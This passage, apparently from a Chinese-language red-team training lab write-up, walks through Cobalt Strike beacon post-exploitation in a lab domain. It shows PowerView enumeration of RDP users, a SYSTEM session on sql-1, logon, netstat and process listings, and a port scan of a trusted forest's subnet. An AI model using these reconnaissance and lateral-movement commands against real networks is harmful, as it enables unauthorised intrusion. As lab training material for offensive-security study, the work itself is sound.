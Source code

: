 sql-1.cyberbotic.io
exch-1.cyberbotic.io
```

```
beacon> powershell Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName

sql-1.cyberbotic.io
exch-1.cyberbotic.io
```

横向移动到sql-1.cyberbotic.io

查看登录会话
```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> run hostname
sql-1

beacon> net logons
Logged on users at \\localhost:

ZPS\jean.wise
CYBER\SQL-1$
```

查看网络连接
```
beacon> shell netstat -anop tcp | findstr 3389

  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1012
  TCP    10.10.15.90:3389       10.10.18.221:50145     ESTABLISHED     1012
```

查看进程
```
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 644   776   ShellExperienceHost.exe      x64   3           ZPS\jean.wise
 1012  696   svchost.exe                  x64   0           NT AUTHORITY\NETWORK SERVICE
 1788  776   SearchUI.exe                 x64   3           ZPS\jean.wise
 3080  776   RuntimeBroker.exe            x64   3           ZPS\jean.wise
 3124  3752  explorer.exe                 x64   3           ZPS\jean.wise
 4960  1012  rdpclip.exe                  x64   3           ZPS\jean.wise
 4980  696   svchost.exe                  x64   3           ZPS\jean.wise
 5008  1244  sihost.exe                   x64   3           ZPS\jean.wise
 5048  1244  taskhostw.exe                x64   3           ZPS\jean.wise
```

下面思考两个问题
1. ```jean.wise```是否有任何特权访问```zeropointsecurity.local```
2. 是否可以访问```zeropointsecurity.local```的445、3389、5985等端口

关于第一个问题，基于目前的域信任（单向-出站）我们无法枚举任何有用信息
第二个问题可以通过```portscan```查看
```
beacon> portscan 10.10.18.0/24 139,445,3389,5985 none 1024
10.10.18.221:3389
10.10.18.221:5985
